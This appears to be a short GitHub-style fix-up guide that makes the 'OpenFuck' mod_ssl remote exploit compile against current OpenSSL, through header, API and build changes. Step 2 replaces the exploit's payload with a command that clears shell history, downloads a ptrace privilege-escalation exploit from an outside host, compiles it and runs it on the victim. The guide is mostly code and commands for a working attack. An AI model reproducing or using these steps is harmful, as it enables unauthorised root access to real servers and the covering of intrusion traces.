 # some solution for openfuck errors. <br>
  1) Add this below line 24 (the last #include): <br>
    <pre> <code>
    #include <openssl/rc4.h>
    #include <openssl/md5.h>
    #define SSL2_MT_ERROR 0
    #define SSL2_MT_CLIENT_FINISHED 3
    #define SSL2_MT_SERVER_HELLO 4
    #define SSL2_MT_SERVER_VERIFY 5
    #define SSL2_MT_SERVER_FINISHED 6
    #define SSL2_MAX_CONNECTION_ID_LENGTH 16
    </code> </pre>

  2) Replace COMMAND2 on (now) line 672: <br>
    <code>#define COMMAND2 "unset HISTFILE; cd /tmp; wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"</code>


  3) Update declaration of variables Line 961, change : <code>unsigned char *p, *end;</code> <br>
    By adding const : <code>const unsigned char *p, *end;</code>
  
  4) Replace the if on (now) line 1078 with:
  if (EVP_PKEY_get1_RSA(pkey) == NULL) {

  5) Replace the encrypted_key_length code on (now) line 1084 with: ,br>
    <code>encrypted_key_length = RSA_public_encrypt(RC4_KEY_LENGTH, ssl->master_key, &buf[10], EVP_PKEY_get1_RSA(pkey), RSA_PKCS1_PADDING);</code>
  6) Install libssl-dev (if not already installed): <br>
    <code>apt-get install libssl-dev</code>
  7) Compile!
    <code> gcc -o OpenFuck openfuck.c -lcrypto </code>
